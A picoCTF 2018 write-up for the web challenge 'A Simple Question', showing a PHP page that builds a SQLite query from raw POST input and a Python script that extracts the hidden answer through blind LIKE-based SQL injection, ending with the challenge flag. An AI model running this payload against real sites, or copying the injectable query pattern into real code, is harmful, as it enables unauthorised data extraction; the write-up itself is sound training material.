 ```yaml
---
title: picoCTF 2018 - A Simple Question Writeup
layout: post
author: "matpro98"
category: web
tags: web sql injection
---
```


The site linked by the challenge looks like this:

![AltText](/media/images/simplequestion1.png)

Writing a `'` the page returns this error:

![AltText](/media/images/simplequestion2.png)

So we know that the page is vulnerable to SQL injection and the query is `SELECT * FROM answers WHERE answer='<input>'`

The source code of the page is:

```
<!doctype html>
<html>
<head>
    <title>Question</title>
    <link rel="stylesheet" type="text/css" href="//maxcdn.bootstrapcdn.com/bootstrap/3.3.5/css/bootstrap.min.css">
</head>
<body>
<div class="container">
    <div class="row">
        <div class="col-md-12">
            <div class="panel panel-primary" style="margin-top:50px">
                <div class="panel-heading">
                    <h3 class="panel-title">A Simple Question</h3>
                </div>
                <div class="panel-body">
                    <div>
                        What is the answer?
                    </div>  
                    <form action="answer2.php" method="POST">
<!-- source code is in answer2.phps -->
                        <fieldset>
                            <div class="form-group">
                                <div class="controls">
                                    <input id="answer" name="answer" class="form-control">
                                </div>
                            </div>

                            <input type="hidden" name="debug" value="0">

                            <div class="form-actions">
                                <input type="submit" value="Answer" class="btn btn-primary">
                            </div>
                        </fieldset>
                    </form>
                </div>
            </div>
        </div>
    </div>
</div>
</body>
</html>
```

while the code in `answer2.php2` is:

```
<?php
  include "config.php";
  ini_set('error_reporting', E_ALL);
  ini_set('display_errors', 'On');

  $answer = $_POST["answer"];
  $debug = $_POST["debug"];
  $query = "SELECT * FROM answers WHERE answer='$answer'";
  echo "<pre>";
  echo "SQL query: ", htmlspecialchars($query), "\n";
  echo "</pre>";
?>
<?php
  $con = new SQLite3($database_file);
  $result = $con->query($query);

  $row = $result->fetchArray();
  if($answer == $CANARY)  {
    echo "<h1>Perfect!</h1>";
    echo "<p>Your flag is: $FLAG</p>";
  }
  elseif ($row) {
    echo "<h1>You are so close.</h1>";
  } else {
    echo "<h1>Wrong.</h1>";
  }
?>
```

So we can reconstruct the correct anwer with the LIKE operator. It can be done by a small script written in Python:

```
import requests
import string
alphabet="1234567890qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM"

answer=""
trovato=True

while(trovato):
    trovato=False
    for c in alphabet:
        answer=answer[:-1]
        answer+=c
        payload={'answer':answer+"' OR answer LIKE '"+answer+"%'---",'debug':0}
        r=requests.post("http://2018shell2.picoctf.com:28120/answer2.php",data=payload)
        if "close" in r.content:
            print(answer+"\tcloser!")
            answer+=c
            trovato=True
            break
        if "flag" in r.content:
            print(r.content)
```

and the result is `41andsixsixths`, but this isn't the correct answer:

![AltText](/media/images/simplequestion3.png)

By running the script with a different alphabet, we get a different answer, i.e. `41ANDSIXSIXTHS`, which again is incorrect. Let's try with only the leading character of each word upcase (`41AndSixSixths`):

![AltText](/media/images/simplequestion4.png)

It works! We got the flag: `picoCTF{qu3stions_ar3_h4rd_73139cd9}`.
